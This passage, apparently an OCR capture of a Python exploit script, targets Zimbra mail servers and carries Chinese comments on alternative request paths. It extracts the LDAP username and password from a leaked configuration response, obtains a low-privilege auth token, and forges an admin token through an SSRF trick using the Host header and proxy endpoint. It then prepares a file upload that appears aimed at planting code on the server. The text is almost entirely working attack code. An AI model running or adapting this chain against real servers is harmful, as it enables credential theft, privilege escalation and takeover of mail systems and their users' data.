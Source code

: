    #low_token Stage
    import re
    pattern_name = re.compile(r"<key name=(\"|")zimbra_user(\"|")>\n.*?<value>(.*?)<\/value>")
    pattern_password = re.compile(r"<key name=(\"|")zimbra_ldap_password(\"|")>\n.*?<value>(.*?)<\/value>")
    username = pattern_name.findall(r.text)[0][2]
    password = pattern_password.findall(r.text)[0][2]
    #print(username)
    #print(password)

    auth_body="""<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
       <soap:Header>
           <context xmlns="urn:zimbra">
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851.RHEL5_64"/>
           </context>
       </soap:Header>
       <soap:Body>
         <AuthRequest xmlns="{xmlns}">
            <account by="adminName">{username}</account>
            <password>{password}</password>
         </AuthRequest>
       </soap:Body>
    </soap:Envelope>
    """

    #print("[*] Get Low Privilege Auth Token")

    #72行路径可能为/service/soap
    r=requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAccount",username=username,password=password),verify=False)

    pattern_auth_token=re.compile(r"<authToken>(.*?)</authToken>")

    low_priv_token = pattern_auth_token.findall(r.text)[0]

    #print(low_priv_token)

    # SSRF+Get Admin_Token Stage

    headers["Cookie"]="ZM_ADMIN_AUTH_TOKEN="+low_priv_token+";"
    headers["Host"]="foo:7071"
    #print("[*] Get Admin  Auth Token By SSRF")
    #r = requests.post(base_url+"/service/proxy?target=https://127.0.0.1:7071/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
    r = requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
    #若86行无法使用请使用85行

    admin_token =pattern_auth_token.findall(r.text)[0]
    #print("ADMIN_TOKEN:"+admin_token)

    f = {
        'filename1':(None,"whocare",None),
        'clientFile':(filename,fileContent,"text/plain"),
        'requestId':(None,"12",None),
    }
